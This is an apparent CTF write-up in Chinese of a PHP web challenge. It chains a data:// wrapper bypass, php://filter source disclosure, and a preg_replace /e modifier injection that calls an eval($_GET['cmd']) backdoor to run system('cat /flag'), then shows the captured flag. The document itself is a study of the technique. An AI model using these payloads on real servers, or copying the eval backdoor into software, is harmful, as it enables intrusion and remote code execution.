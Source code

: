 ![[Pasted image 20221115160913.png]]
```php
<?php
error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }
    
    include($file);  //next.php
}
else{
    highlight_file(__FILE__);
}
?>
```
---
```shell
/?text=data://text/plain,I have a dream&file=next.php
```
![[Pasted image 20221115161441.png]]

话说回来如果我这样写的话不是还不如直接访问`next.php`嘛QwQ
```shell
/?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

> PD9waHAKJGlkID0gJF9HRVRbJ2lkJ107CiRfU0VTU0lPTlsnaWQnXSA9ICRpZDsKCmZ1bmN0aW9uIGNvbXBsZXgoJHJlLCAkc3RyKSB7CiAgICByZXR1cm4gcHJlZ19yZXBsYWNlKAogICAgICAgICcvKCcgLiAkcmUgLiAnKS9laScsCiAgICAgICAgJ3N0cnRvbG93ZXIoIlxcMSIpJywKICAgICAgICAkc3RyCiAgICApOwp9CgoKZm9yZWFjaCgkX0dFVCBhcyAkcmUgPT4gJHN0cikgewogICAgZWNobyBjb21wbGV4KCRyZSwgJHN0cikuICJcbiI7Cn0KCmZ1bmN0aW9uIGdldEZsYWcoKXsKCUBldmFsKCRfR0VUWydjbWQnXSk7Cn0K

解码后长这样
```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
有一个`getFlag()`函数，但是应该怎么调用它呢......
乍一看枚举、正则替换、回显一气呵成，貌似并没有机会
但是细看发现`preg_replace`中的正则表达式有一个没有见过的修饰符`e`
结果翻了半天官方文档也没翻到这个修饰符
翻谷歌发现这玩意早在`php 5.5.0`时代就被弃用，在`7.0.0`中被移除
查看响应中的`X-Powered-By`头，其值为`PHP/5.6.40`，刚好可以使用`e`修饰符
> 如果设置了这个被弃用的修饰符，[preg_replace()](https://www.php.net/manual/zh/function.preg-replace.php) 在进行了对替换字符串的后向引用替换之后, 将替换后的字符串作为`php`代码评估执行(`eval`函数方式)，并使用执行结果 作为实际参与替换的字符串。单引号、双引号、反斜线（`\`）和 NULL 字符在后向引用替换时会被用反斜线转义。

`'strtolower("\\1")'`中使用的是双引号，这意味着可以内插变量，利用这一点插入对`getFlag`的调用
对于`$re`，参考佬的wp，使用`\S*`以匹配所有非空白字符，同时避免`php`对某些特殊字符的处理
```php
/next.php?\S*=${getFlag()}&cmd=system('cat /flag');
```
> flag{a1a7ed7e-d4a8-403c-8d74-d1da5f631dd2} system('cat /flag');

#Web #PHP #函数 #伪协议 #RCE #正则表达式 #可变变量